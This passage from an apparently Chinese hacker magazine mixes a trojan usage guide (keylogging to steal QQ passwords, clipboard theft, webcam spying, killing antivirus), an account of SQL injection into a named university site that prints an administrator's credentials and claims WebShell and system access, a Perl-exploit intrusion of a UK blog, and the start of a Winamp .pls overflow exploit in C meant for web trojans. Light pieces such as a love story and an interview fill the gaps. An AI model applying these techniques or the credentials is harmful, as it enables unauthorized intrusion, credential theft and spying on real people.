进程管理用于查看、终止远程计算机中运行的进程。如果用户发现远程计算机的进程中包括了网络防火墙、杀毒软件这些安全软件的进程，就可以通过“终止”命令来终止它。由于“魔剑传说”的服务端程序在运行时会自动插入到 IEXPLORE.EXE 的进程中，所以在进程列表中根本无法查看到服务端程序的进程，而且普通的防火墙也根本无法阻止它，如图5所示。



图5 进程管理窗口

- 5. 服务管理  
服务管理可以获取远程计算机中的系统服务信息。
- 6. 窗口管理  
窗口管理用于获取远程计算机的窗口信息。
- 7. 注册表管理  
注册表管理能获取远程计算机中的注册表信息，用户可以新建、删除、重命名注册表项，以及对注册表的键和键值内容进行修改。
- 8. 剪贴板管理  
剪贴板管理能够获取和更改远程计算机剪贴板中的内容，并且将这些内容保存到本地文件中。可能有的朋友觉得这个命令用处不大，但当用户通过复制、粘贴来输入账号密码的时候，我们就可以轻松地获得这些信息，如图6所示。



图6 剪贴板管理窗口

- 9. HTTP 代理  
通过“HTTP 代理”可以在远程计算机中开启 HTTP 代理服务，这样我们就可以轻易地将其设置为跳板。如果用户还获取了远程计算机的 ADSL 账号的话，就可以通过这个代理进行 Q 币充值呢。
- 10. 下载运行  
下载运行可以让远程计算机自动下载我们设置的一个 URL 地址的文件并运行，由于这些操作都能通过“文件管理”来实现，个人觉得它的用处不大。
- 11. 打开网址  
打开网址可以调用远程计算机中的默认浏览器，来打开我们设置的一个 URL 地址。
- 12. 发送消息  
发送消息命令可以给远程计算机发送提示信息。
- 13. 远程屏幕  
远程屏幕命令可轻松截取远程计算机屏幕的画面，并对截取的画面进行保存。我们通过对这些图片的分析，可以掌握远程用户的上网规律，以方便我们今后的控制操作，如图7所示。
- 14. 远程视频  
在远程计算机有摄像头的前提下（用户可以在肉鸡列表中查看远程计算机是否安装了摄像头），通过“远程视频”可以获取远程计算机的摄像头画面。
- 15. 键盘记录  
键盘记录能够获取远程计算机的按键记录，包括鼠标和键盘的操作。比如我们通过“进程管理”命令结束远程计算机中的 QQ 进程，当用户再次登录的时候，就可以截取远程用户的 QQ 密码等信息，如图8所示。

另外，“重启主机”“关闭主机”“注销用户”这些命令用于对远程计算机进行常规的管理操作。而“远程卸载”命令则用于删除远程计算机中安装的服务端文件，然后删除服务端所对应的启动服务。

### 四、手工清除

关于木马“魔剑传说”的使用就为大家介绍到这，下面再来简单地了解一下如何手工清除“魔剑传说”的服务端程序。

第一步：由于“魔剑传说”的服务端程序是通过系统服务进行启动的，所以需要用户通过服务管理器进行查看。在“我的电脑”图标上点击鼠标右键选择“管理”命令，接着在弹出的“计算机管理”窗口中选择“服务”选项，然后在这些系统的服务中查找可疑的服务。当找到可能是服务端程序的启动服务后，记录下启动服务的名称，以及所指的程序路径。



图7 远程屏幕窗口

第二步：接着打开记事本，输入以下代码，并另存为“del.bat”。

```bat
echo off
sc stop mjcs
rem 停止启动服务
sc delete mjcs
rem 删除启动服务
taskkill /im iexplore.exe
rem 结束被恶意插入的 IE 浏览器进程
del %systemroot%\system32\mjcs.exe
rem 删除服务端程序
shutdown -r -t 0
rem 重新启动系统
```

Sc 是系统自带的服务修改工具，而 taskkill 则是 Windows XP/2003 自带的进程结束工具。如果用户使用的是 Windows 2000 系统，可以借助其资源包中的“kill.exe”来替换上面的“taskkill”程序。



图8 键盘记录窗口

### 五、小结

笔者在“魔剑传说”这款木马的测试后觉得，虽然这款木马已经拥有大量的远程控制命令，并且大量使用了现在木马的流行技术，比如线程插入技术、反弹连接技术、Rootkit 技术等，但就每个命令的控制能力来说，还是较弱的。比如“远程屏幕”命令只能进行远程屏幕的查看，还不能进行远程屏幕的控制；“文件管理”命令在操作的时候也常常出问题等。不过总的来说，“魔剑传说”还算得上是一款优秀的木马程序，有兴趣的朋友可以试试看。如果大家还有什么问题的话，欢迎到《黑客手册》的论坛我们一起讨论学习。

> 【文中所涉及到的“魔剑传说”黑客手册专用版，已经收录在光盘中。】

## 记一次对南京师范大学网站的安全检测

从本文你可以学到：

- 啊D注入工具的基本应用
- NBSI和啊D注入工具的配合应用

### 一、引子

南京师范大学继续教育学院是我国较早举办成人高等教育的学校之一，举办高等教育自学考试和夜大、成人脱产、函授教育，目前在籍本、专科学生已达15000多人，高等教育自学考试考生近30万。本人正在南师大函授本科，继续教育学院的网站提供了成绩查询、新闻发布等有关的学籍管理功能，作为一名网络安全爱好者，当然要对这个网站的安全性作一次测试。

### 二、踩点

本站的地址是：http://jxjy.njnu.edu.cn/，一看到这个网站便觉得应该是学院自己开发的，并非什么整站程序修改，网站是用ASP制作的。




### 三、实战

#### 1、发现注入点，得到管理员信息，进入后台

既然是用ASP做的，先来试试有没有注入点。拿来啊D注入工具2.0破解版进行检测，结果发现了注入点，如图1所示。右击“注入检测”，如图2、图3所示。点“MSSQL专用表段检测”按钮进行表段猜解，感觉太慢，于是换了个NBSI试一试，速度快多了，如图4所示。


在这些表里存放着所有的学籍信息，我找到了一些十分有用的东西。如 g1_master 表中存放着管理员的账号和密码信息：[username]:master [password]:3598275 [path]:D:\xjglxt\。早在踩点时我就发现了页面左上角的管理员登录框，如图5所示。用这个账号信息登录成功，如图6所示。


成功进入这个后台，就可以……（更改信息？这可不行，来作测试的，不是搞破坏的啊）。后台功能有学籍管理、成绩管理、统考管理、缴费记载管理、网页信息管理、查询学生资料、修改登录密码等等，有20个功能呢，看起来开发得不错啊，就是安全性差了些。

#### 2、进一步扩大成果

到了这一步，大家还有什么要做？也许90%以上的人会说：上传一个WebShell，再设法取得管理员权限。在我看来，每次测试都要定一个目标，达到目标就行，没必要总是按这个模式闯下去。如果你非得这样，我就来说说吧。刚才我们在检测注入点时，大家也许发现了，当前数据库用户权限是SA，能做的事情很多。比如可用注入工具的列目录文件功能找到WEB目录，可以通过文件上传功能往WEB目录里写木马之类的东西，可以执行DOS或SQL命令以及读取注册表信息等等。大家可以翻一些资料来看，为节省版面，在此不多作阐述。我是得到了WebShell和系统权限，截几张图给大家看一下，最后发现这服务器原来有4个CPU，上面还有自学考试等另外几个网站，各站都没有作权限设置，如图7所示。


图7 利用WebShell查看服务器信息

如果谁恶意在主页上面挂个木马什么的，后果岂不是危害极大啊！（最后声明，我可没这么做，啊啊！）

> 【文中所涉及到的NBSI、啊D注入工具，已经收录在光盘中】

典型的工具注入，技术上没有什么好说的。NBSI对注入点的查找比较弱而啊D较强，在速度和判断准确率上NBSI强而啊D弱，这一点初学者们应该注意，工具要灵活使用，不要使用一种工具闯天下。

### 四、总结与思考

本文没什么新的技术，纯粹就是注入工具的使用，入侵就是这么简单，工具可以让我等菜鸟们一样搞定许多站点。又感叹现在的网络安全状况真是令人担忧，就如这个有一万五千多名学员的网站，如果谁恶意在主页上面挂个木马什么的，后果岂不是危害极大啊！

## 伊斯兰黑客决战欧洲大站——热门黑客工具试用手记

Xapache

从本文你可以学到：

- 用ping命令获得目标IP地址
- 了解D2KBlog 1.0.3相关漏洞以及对此漏洞的专用工具的应用

今年二月份，一家丹麦的报纸刊登了一些对伊斯兰教先知穆罕默德颇为不敬的漫画。然后，挪威、法国、德国、意大利、西班牙等欧洲国家媒体又转载了这些漫画或者其中的一部分。此举造成了全球各地穆斯林教徒的极大不满。在叙利亚、黎巴嫩、伊朗、巴基斯坦和印尼，愤怒的穆斯林冲击了丹麦和其他欧洲国家的使领馆。

抗议欧洲报纸刊登伊斯兰先知漫画的浪潮近日蔓延到了虚拟世界，超过六百个丹麦站点和大量欧洲国家的报刊杂志主页遭到黑客袭击，纷纷被贴上了抗议信息。黑客在页面上写着“以后再不要对我们的先知说三道四”的抗议词句。

接下来，就让我们回顾一下那场黑客大战的印记：一个伊朗黑客组织写的其中一款小型漏洞利用工具，并且对设在英国的某个站点来一次模拟入侵（这个站点好像和中国人有渊源，希望没有伤害到同胞的利益--_-!）。目标：http://www.cr1998.com/，经过ping检测，知道了IP为：195.242.213.17，该站位于英国，如图1所示。

```txt
C:\WINDOWS\system32\cmd.exe
Pinging www.cr1998.com [195.242.213.17] with 32 bytes of data:
Reply from 195.242.213.17: bytes=32 time=111ms TTL=109
Reply from 195.242.213.17: bytes=32 time=77ms TTL=109
Reply from 195.242.213.17: bytes=32 time=774ms TTL=109
Reply from 195.242.213.17: bytes=32 time=779ms TTL=109

Ping statistics for 195.242.213.17:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 77ms, Maximum = 111ms, Average = 86ms
```

图1 ping www.cr1998.com

该站点就是一个blog，在我打开的时候，已经不像样子了，似乎被前面先到的仁兄大肆发挥了一通。呵呵，博客主人好像也不是很关心自己的站点啊，这么久了也没发现问题。“DorkzoRz”这个单词也不知道是何意，被如此“连贴”，如图2所示。


图2 被恶意修改的BLOG

在网站底部能看到对方用的博客系统是 D2KBlog 1.0.3。下面请出我们伊朗兄弟的漏洞利用工具：D2KBLOG SQL injection.pl。这是一个Perl版本的SQL注入工具，在使用前请先确定你安装了ActivePerl解释器。D2KBLOG这套blog程序在国外有众多用户，采用ASP+Access结构开发，支持RSS和XHTML，速度也不错。可是由于其程序对Cookie没有很好地检查，导致了漏洞的发生（出现问题的地方是“profile.asp”页面中的“memName”参数）。利用这个Exploit，人们可以获得数据库中对方管理员的账户名和密码。另外，在Default.asp页面中还存在跨站问题，不过这里不是本文讨论的重点了。

我们直接开工，在命令行里调出hack.pl，按照格式填上网址和有漏洞的ASP页面。很快，就得到了管理员账号“root”和MD5加密过的密码，如图3所示。在使用解密工具破解后得到了明文，登录后台后看到了关于系统的一些信息，得知这是一台Windows 2003服务器，如图4所示。


找一找有没有传WebShell的地方吧。看到左边有个Database功能面板，原来这个blog允许备份数据库。不过在我研究了半天还是没有发现可以传shell的方法。因为它只认两个后缀，一个是mdb，还有一个是bak，这样就有效地防止了利用备份数据库来获得shell。动网论坛经过了那么长时间的发展，还依然没有解决好这个问题，其实照这个blog的写法，完全可以起到一劳永逸的保护作用，如图5所示。既然来了，总要留个纪念吧，给它加个友情链接到“非安全”（作者模仿小编说：此人的任何操作与非安全无关），如图6所示。


好了，接下来传shell或是提权之类的问题，有兴趣的朋友自己研究吧，时间仓促，我就不动手了。今天只是用这个来让大家见识一下中东地区的黑客面貌，用伊朗同行所开发的工具对欧洲站点进行的一次模拟入侵，没有丝毫恶意，也请大家不要搞破坏。

> 编者点评：我在国外的安全网站上也看到过 D2KBlog 1.0.3 的漏洞，但由于只能获得被MD5加过密的管理员密码，我也没有太重视。因为破解MD5是需要运气的，如果管理员的密码超复杂，作者的这次入侵也就无功而返了。从文章中我们也学到一种方法可以有效地防止入侵者通过备份数据库来获得Shell，就是只需要让相关程序只能识别mdb和bak两个后缀即可。

## 清除rm、rmvb中的危险因素

目前，最顶级的多媒体RM、RMVB文件的制作者越来越厉害，有的朋友会发现，使用某些播放器播放时会弹出网页广告。有没有办法处理掉呢？这里介绍使用CleanReal工具，可以删除RM、RMVB等视频文件中插入的网页、链接和恶意信息。


> 编者点评：这是处理rm、rmvb视频恶意链接的一个实用性很强的小工具，也说明了多媒体文件同样可能成为安全风险载体。

黑客也是人，尽管偶尔会被人误会为神。但我们除了Happy，也要吃饭、WC……生活之中少了几分神秘，多了几分真情。谁说黑客的老婆是电脑？我们也有所爱的人，所要保护的人……娓娓黑语与你分享生活……

## 我的黑客男友

纳兰月如

我有一个很不错的男朋友，温柔体贴，潇洒幽默。我们从学校认识到踏上社会已经5年了，一直很不错。正商量着明年劳动节的时候结婚。可是慢慢地我却发现，男友变胖好多哦。以前在学校，他还是系里篮球队的……

回家以后，我给他倒了一杯水，吃完刚配的药片以后，他看了我一会儿说：“你眼睛怎么红红的啊？”我说，我回家一看到你刚才的样子，我差点要哭。他笑了起来：“明天开始，我注意身体，努力减肥。”

第二天很早，他就起来做瘦身操、耍双截棍了。令我惊讶的是，桌上居然还有一份留给我的肯德基营养早餐，我们住的地方离最近的肯德基有好几里路呢……

于是我们的生活还继续像以前一样，平时一起努力地工作，周末去街上开心地逛。只是他的在家工作时间由我决定，而我们的餐食食谱，他似乎也可以接受了。

才舒服。我也很担心他，而他却一点也不喊累，还给我唱他那老是跑调的《老鼠爱大米》。

骨折总是要过好久才可以痊愈的，经过男友数个月如一日的细心照顾，我终于能够像以前那样走路了。出院那天，男友显得很开心，一直扶着我，这时我突然发现男友居然瘦了整整一圈，小肚子也没有了。我怜惜地看着他说：“回去给你做你最爱吃的香菇鸡翅好吗？”不料男友连连摆手道：“不行，不行，好不容易保持出来的好身材，怎么能破坏呢，我们还是去买点蔬菜吧。”看到男友认真的样子，我忍不住笑出来。

我们走在大街上，再也没有鲜明的对比，取而代之的是一个体格健美的计算机工程师，身边偎依着一个高挑可爱的紫衣少女。我们幸福地走在一起，也会永远幸福地生活在一起。*^-^*

## IE下载也疯狂

相信对电脑有点了解的朋友都选择专门的下载工具来进行下载，都会觉得用IE下载很慢。那有没有什么方法能提高IE下载的速度呢？其实，只要我们通过修改注册表的相关键值，同样可以让IE6拥有多线程的功能……


在输入数据之前，要在“基数”选择项里选择“十六进制”，然后再输入线程数，通常来说50个线程已经够用了。如果下载的服务器不支持多线程下载，那么速度还是会受到影响。

## 编辑点评

笑声之后，留给我们一些些担忧。看看《黑客手册》的小黑们，身体如何呢？是不是家人也常劝你们早点休息呢？关心自己的身体，也是让家人放心。长期坐在电脑前，不运动，会得一些职业病，比如容易长胖等。胖人一般容易得文章里说的血脂高，还有就是脂肪肝，甚至诱发心脏病等。昨天晚上去参加一个小小的聚会，有搞安全的，有搞专业渗透的，有编辑等。8个里面就有3个是移动速度比较缓慢的，剩下也有向肥胖靠近的嫌疑。当然，也有个别朋友很注意自己的身体，常常去游泳，练习瑜伽、健美，有规律地参加一些体育活动，身材保持挺好，气色也不错。妈妈常告诫我说：“健康是从年轻的时候积累的，到老了，再加强，就已经晚了。”这里也祝福文中的这对年轻人身体健康，永远幸福。

## 像“神气儿”一样“飘忽不定”

三十年河东，三十年河西。网络社会也一样遵循着长江后浪推前浪的自然规律。但真正留下名字的还是那些默默工作、专心开发的技术人员！神气儿——02年开始响起的一个安全软件，是一款远程控制软件，采用了UDP的通信方式，高度仿真Windows资源管理器，实现了被控端反向连接、远程文件管理、文件传输、屏幕监视、控制远程进程、注册表操作、模拟DOS命令、执行批量任务等诸多功能，体积较小，便于操作使用，相信很多玩黑的小鸟和老鸟们都对这款软件有所了解。但是这里小编如果问你一句：你知道神气儿的作者是谁吗？相信有80%的朋友不知道。这里我来告诉大家，它的作者是一位很内向的软件开发者，名字叫飘忽不定。噢，多么有诗意的名字！不过，也是大姐姐起鸡蛋名啊！我们这次都补了个空，就像神气儿一样飘忽不定。但，这次可被我逮住了……

> 小行：你好，飘先生，早闻神气儿之大名，今天我们终于有机会来一睹作者的真面目哦，给我们读者问个好吧。  
> 飘忽不定：……太抬举俺了，友情冒一下泡！在这里给读者问好了！  
> 小行：谢谢飘先生，能不能说下，你这个名字“飘忽不定”有什么深层次的意义吗？  
> 飘忽不定：我也不清楚，感觉这个名字很适合。  
> 小行：我是想知道的是你开发了神气儿，但是在神气儿这款软件上，为什么没有标注你的名字，而是标的某个安全站点软件组呢？  
> 飘忽不定：团队精神吧，所以我回避了。  
> 小行：怎么当时会想起开发这款软件呢？  
> 飘忽不定：玩玩而已，朋友问我会不会做这样的一个软件，我就说可以试试。结果就做了一个。  
> 小行：是什么引发了你对远程控制的兴趣呢？  
> 飘忽不定：觉得网络很有意思，没有什么特别的原因。  
> 小行：你最早开发的远程控制程序是什么样子的？它花了你多长时间？  
> 飘忽不定：最早做的体积大，速度慢，功能也不多。花了几个月时间，没有写完。一般程序我都不会写完，写了当中最主要的部分就没有兴趣写了。现在人更懒了，写东西的时间越来越长。  
> 小行：当时开发这款软件为什么起个“神气儿”这样的名字？  
> 飘忽不定：其实是“神放弃的人”的意思，取谐音。  
> 小行：为什么说是被神放弃的呢？难道在现实中有什么不开心的事儿？  
> 飘忽不定：不知道，以前看小日本的片太多了，受了影响，觉得不爽就认为是神不重视的人。  
> 小行：写程序的时候遇到过什么困难没有？  
> 飘忽不定：没有印象，我一般写东西，脑子里都是想好了怎么去实现的，碰到小的功能不会，到网上一搜就有。  
> 小行：那么你是从什么时候开始第一次接触网络安全技术，并开始喜爱上程序的呢？  
> 飘忽不定：网络安全技术？我不会，我初一就开始自学写程序了，那时候还有点热情。  
> 小行：如果一个无任何基础的小菜鸟，想去开发一个属于自己的小软件，当然软件可好可坏，关键是体会自己开发软件的那份激动。那他需要走几步才可以实现自己的目标呢？  
> 飘忽不定：老外有句话说“just do it”，我做不到，我总是“just say it”，所以我的程序要写很久。去做，别想这么多就行。  
> 小行：很多菜鸟都抱怨程序开发太枯燥乏味，你对他们说点什么？  
> 飘忽不定：如果写程序是你的爱好，就不会觉得枯燥乏味。  
> 小行：我们知道搞程序软件开发的作者都大多内向，这是先天的还是在长期的软件开发测试过程中养成的呢？  
> 飘忽不定：我也不知道，呵呵，如果我知道，我就不会这样了。  
> 小行：说了这么多，也许广大读者还对你都不太熟悉，简单地介绍下你自己吧！还有，我们的读者如何与你联系呢？  
> 飘忽不定：很简单，人半个，死了一半了。呵呵。

对神气儿作者的采访这么快就过去了，感到有点不尽兴。后来采访完毕，我本想让作者再补充下相关的软件发言，但他说，简单就是美，他不会说什么太多的话！的确，我们就需要这样的人。小行我常说的一句话，就是踏踏实实做小事，堂堂正正做大人！

在安全界，不论国内还是国外，最为动荡的时期应该是有新漏洞爆出的时候；高手们忙着写代码，做调试进而加以利用；小菜菜们则是忙着去实践，抓肉鸡，忙得不亦乐乎。然而知其然而不知其所以然，不明白漏洞产生的原因，只会按照别人提供的方法去利用，或不会利用的人，也就只能停留在小菜的级别上而无法成长，于是大家狂呼：让我们明白为什么“漏”了！

为了响应大家的要求，经策划安排，从本期开始，我们扩充“新洞练练看”这个栏目，把目光放远一点，尽量把国内外的最新漏洞都奉献给大家。无论是系统的、脚本的、第三方软件的还是其他的，我们都及时提供较为具体的分析或实例应用，希望大家多加练习。

## Winamp.pls 文件解析

dang0102

## 漏洞解析分析 + 利用

从本文你可以学到：

- Winamp .pls 的文件格式
- Winamp 解析 .pls 文件存在的漏洞分析方法
- 一般漏洞的利用途径

### 一、引子

Winamp是NullSoft开发的一款高保真的音乐播放软件，支持MP3、WAM等多种文件格式。但从4.x到5.1x版本，关于Winamp文件解析存在的漏洞层出不穷。这不，今年2月初，又爆出了Winamp 5.12及其以下版本在解析播放列表文件.pls时存在堆栈溢出漏洞，而且影响还比较大。这是一个简单的漏洞，下面我们就来分析这个漏洞，并通过该漏洞来制作网页木马。

```c
FILE *File;
char pszBuffer[0x600];
// 创建畸形 .pls 文件名
if ((File = fopen("crafted.pls", "w+b")) == NULL)
{
    printf("\n [Err!] fopen()\n");
    return;
}
memset(pszBuffer, 0x90, 0x100);
memset(pszBuffer + 0x100, 0x91, 0x100);
memset(pszBuffer + 0x200, 0x92, 0x100);
memset(pszBuffer + 0x300, 0x93, 0x100);
memset(pszBuffer + 0x400, 0x94, 0x100);
memset(pszBuffer + 0x500, 0x95, 0x100);
// 加上 UNC 文件前缀和其它字段
memcpy(pszBuffer, szPlayListHeader1, sizeof(szPlayListHeader1)-1);
memcpy(pszBuffer + 0x500, szPlayListHeader2, sizeof(szPlayListHeader2)-1);
// 写入文件
fwrite(pszBuffer, 0x600, 1, File);
fclose(File);
```

### 二、漏洞简介及 .pls 文件格式分析

还是先看看漏洞公告吧，如图1所示。从漏洞公告中我们可以看出，这是一个堆栈溢出漏洞，并且溢出是在解析.pls文件中UNC文件路径字段时产生的。因此，我们有必要先了解.pls文件的格式。播放列表.pls文件格式如下：


```txt
